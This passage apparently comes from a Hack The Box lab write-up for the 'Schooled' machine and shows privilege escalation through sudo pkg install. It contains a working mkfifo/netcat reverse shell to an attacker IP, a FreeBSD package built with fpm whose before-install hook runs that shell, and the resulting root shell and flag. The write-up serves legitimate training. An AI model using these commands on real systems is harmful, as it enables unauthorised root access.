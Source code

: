 Created a reverse shell exploit using the above PoC:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 10099 >/tmp/f' > pe.sh

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ fpm -n x -s dir -t freebsd -a all --before-install pe.sh .
DEPRECATION NOTICE: XZ::StreamWriter#close will automatically close the wrapped IO in the future. Use #finish to prevent that.
/var/lib/gems/2.7.0/gems/ruby-xz-0.2.3/lib/xz/stream_writer.rb:185:in `initialize'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `new'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `block in output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `open'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:487:in `execute'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:68:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:574:in `run'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:133:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/bin/fpm:7:in `<top (required)>'
        /usr/local/bin/fpm:23:in `load'
        /usr/local/bin/fpm:23:in `<main>'
Created package {:path=>"x-1.0.txz"}

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ sudo python3 -m http.server 80                                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the exploit:

```bash
jamie@Schooled:~ $ curl 10.10.14.24/x-1.0.txz -o x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2624  100  2624    0     0  23428      0 --:--:-- --:--:-- --:--:-- 23221
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
```

Obtained the high privileged reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.234] 64025
# whoami && hostname && cat /root/root.txt && ifconfig
root
Schooled
230dfbea6a985be3b7eecd18d1238861
vmx0: flags=8863<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
        options=4e403bb<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,JUMBO_MTU,VLAN_HWCSUM,TSO4,TSO6,VLAN_HWTSO,RXCSUM_IPV6,TXCSUM_IPV6,NOMAP>
        ether 00:50:56:b9:8b:31
        inet 10.10.10.234 netmask 0xffffff00 broadcast 10.10.10.255
        media: Ethernet autoselect
        status: active
```